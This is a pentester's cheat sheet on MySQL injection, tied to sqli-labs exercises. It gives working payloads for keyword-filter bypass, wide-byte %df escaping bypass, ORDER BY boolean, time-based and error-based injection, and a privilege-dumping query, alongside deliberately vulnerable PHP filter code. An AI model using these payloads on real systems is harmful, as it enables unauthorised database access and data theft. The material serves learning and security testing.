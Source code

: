 # Mysql Injection Tips

Write by manesec.

## Useful Website

+ [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
+ [Mysql sql injection cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)


## 0x0 Some by pass word

+ Space = `%0a`, `+`
+ and = `&&`
+ or = `||`

## 0x1 Bypass `only filtered at once`

Sometimes some phrases are only filtered at one time, It just turns some simple words into blanks and passes them to Mysql.

Example code like :

``` php
function blacklist($id){
    $id= preg_replace('/or/i',"", $id);
    $id= preg_replace('/AND/i',"", $id);
    return $id;
}
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-25/index.php#LL61C27-L61C27

Filtered:  `or`, `and`

1. Input: `id = 1' and 1=1 -- -`
2. Filtered will be: `id = 1' 1=1 -- -`
3. Pass to mysql to exec.

Now you can do :

1. Input: `id = 1' aandnd 1=1 -- -`
2. Filtered will be: `id = 1' and 1=1 -- -`
3. Pass to mysql to exec the injection command.

The reason it worked was because he only filtered it once.

## 0x2 Bypass `space` and `command out`

Example code like :

```php
function blacklist($id) {
    $id= preg_replace('/or/i',"", $id);            //strip out OR (non case sensitive)
    $id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive)
    $id= preg_replace('/[\/\*]/',"", $id);        //strip out /*
    $id= preg_replace('/[--]/',"", $id);        //Strip out --
    $id= preg_replace('/[#]/',"", $id);            //Strip out #
    $id= preg_replace('/[\s]/',"", $id);        //Strip out spaces
    $id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes
    return $id;
}
$id= blacklist($id);
$hint=$id;
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-26/index.php#L59


Filtered:  `or`, `and`,  `/*` , `–` ,`#` , `SPACE` , `/`

Using `||` to by pass it, like: 

`index.php?id=1'||extractvalue(1,concat(0x7e,user(),0x7e))||'`

## 0x3 Wide byte injection: `%df`

```php

    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-32/index.php#L19

Filtered: `/`, `'`, `"`

Add `%df` like `?id=%df' and 1=1 -- -`

MySQL uses GBK encoding by default. When MySQL uses GBK encoding, it considers two characters as one Chinese character if the ASCII code of the first character is greater than 128 (which falls within the range of Chinese characters). 

This is a feature of MySQL because GBK is a multi-byte encoding that considers two bytes as one Chinese character. When we pass parameters, we use the URL encoding for the single quote, represented as `%27`, and we can pass it as `%df%27`.

**Note** : `%23` = `#`

When we pass in `%df` as a parameter, it becomes `?id=1%DF and 1=1%23` in the database. 

At this point, the escape function will also escape the single quote we entered and convert it to `\'`, (where the URL encoding of "\" is `%5C`). 

In the URL, it becomes `%DF%5c%27`. When encoded in GBK, `%5c` will be combined with the previous `%df` to form a Chinese character (運), which closes the single quote and successfully executes the query. 

The final SQL statement is: `select * from user where id='1運' and 1=1#'`

See: https://www.freebuf.com/articles/web/337784.html

## 0x4 Bypass `mysql_real_escape_string()` when Mysql is not GBK encoding.

In the php code using the `mysql_real_escape_string()` to filtered some work, but mysql not using GBK encoding.

`\x00`, `\n`, `\r`, `\`, `'`, `"` and `\x1a` will not work.

But it have a two way to bypass it, using `%df'` or `%EF%BF%BD` (Like `%df`).

## 0x5 `order by` after injection.

```php
$sql = "SELECT * FROM users ORDER BY $id";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-46/index.php#LL22C2-L22C44

`index.php?sort=1`


**boolean injection** : It can use some function like

+ `?sort=rand(false)`

**Time based**: 

+ `?sort=(SELECT IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1)`

**Error based**:

Note: `PROCEDURE ANALYSE()` is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0.

+ `?sort=updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=extractvalue(rand(),concat(0x3a,version()))`
+ `?sort=1 AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)`

## 0x6 Post, USER_PRIVILEGES

+ `SELECT  group_concat(concat(GRANTEE,",",TABLE_CATALOG,",",PRIVILEGE_TYPE,",",IS_GRANTABLE) SEPARATOR '|') FROM information_schema.USER_PRIVILEGES`


